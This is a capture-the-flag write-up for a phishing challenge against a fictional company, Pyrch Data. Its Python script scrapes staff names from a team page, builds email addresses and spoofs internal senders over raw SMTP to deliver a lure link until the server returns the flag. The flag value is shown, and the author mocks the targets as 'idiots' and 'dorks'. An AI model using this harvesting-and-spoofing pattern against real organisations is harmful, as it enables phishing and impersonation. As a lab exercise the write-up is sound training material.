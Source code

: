 ## Red Phish Blue Phish

This challenge switches things up by creating an interactive server and website. We are given some information in the description.

"You are to conduct a phishing exercise against our client, **Pyrch Data**.
We've identified the Marketing Director, **Sarah Williams** (swilliams@pyrchdata.com), as a user susceptible to phishing."

Sounds like this user will just click anything. Probably a bot "clicking" whatever you send it given the nature of the challenge. We are also given a smtp server address to play with after starting it up.
`nc challenge.ctf.games PORT`

So we have some good info. 
1) Emails are first_initial_lastname@pyrchdata.com
2) Pyrchdata might have a website since this server is online.
3) We are supposed to send this **idiot** a phishing email

With that in mind lets try to get some more info on the situation over at PyrchData.com

Visiting with a browser, we quickly find https://pyrchdata.com/team, useful for enumerating users as we already have a good idea of email address formatting. Sure enough lots of dorks in there.

So. Lets use this page and scrape it for use in multiple attempts to phish from one of these dweebs. 

Inspecting the webpage, we see that user names are all in h3 tags, but also the profile pictures. Can parse from either but lets scrape it and then send emails over the smtp address accordingly (knockknock, whoisit, whositfor, pwnchline). Just kidding its HELO -> MAIL FROM -> RCPT TO -> DATA (which is how you initiate and send your message).

Using the scraped emails (excluding Sarah) we communicate with the server like so, which stops after receiving 'flag{' in the response. Using python we can utilize `beautifulsoup` and `requests` for webscraping.

```python
import socket
import requests
from bs4 import BeautifulSoup

server = "challenge.ctf.games"
port = PORT  # CHANGE TO WHAT YOURS SAYS
sarah = "swilliams@pyrchdata.com"

message = """
Subject: Stupid Test

Hey Sarah,

Did you just blow in from stupid town?
http://literallymalware.gov

You silly goose,
Elon M
"""

def get_names():
    url = "https://pyrchdata.com/team"
    response = requests.get(url)
    if response.status_code == 200:
        return [tag.get_text().strip() for tag in BeautifulSoup(response.content, "html.parser").find_all("h3")]
    return []

def generate_email(name):
    names = name.split()
    return f"{names[0][0].lower()}{names[1].lower()}@pyrchdata.com" if len(names) >= 2 else None

def phish(sender, recipient, message):
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as sock:
        try:
            sock.connect((server, port))
            for cmd in [f"HELO pyrchdata.com", f"MAIL FROM:<{sender}>", f"RCPT TO:<{recipient}>", "DATA", f"{message}\r\n."]:
                sock.sendall(f"{cmd}\r\n".encode())
                response = sock.recv(4096).decode()
                print(f"Server Response: {response}")
                if "flag{" in response:
                    return True
            sock.sendall(b"QUIT\r\n")
        except Exception as e:
            print(f"Error: {e}")
    return False

names = get_names()
for name in names:
    sender = generate_email(name)
    if sender and sender != sarah:
        print(f"Trying email: {sender}")
        if phish(sender, sarah, message):
            break
```

This will print out the attempts until finding anything returning "flag{", which eventually gets to user jdaveren@pyrchdata.com.
```sh
Trying email: jdaveren@pyrchdata.com
Server Response: 220 red-phish-blue-phish-82d4f92483bf2c4d-5cdd5cd956-vs7vp Python SMTP 1.4.6
250 red-phish-blue-phish-82d4f92483bf2c4d-5cdd5cd956-vs7vp

Server Response: 250 OK

Server Response: 250 OK

Server Response: 354 End data with <CR><LF>.<CR><LF>

Server Response: 250 OK. flag{54c6ec05ca19565754351b7fcf9c03b2}
```

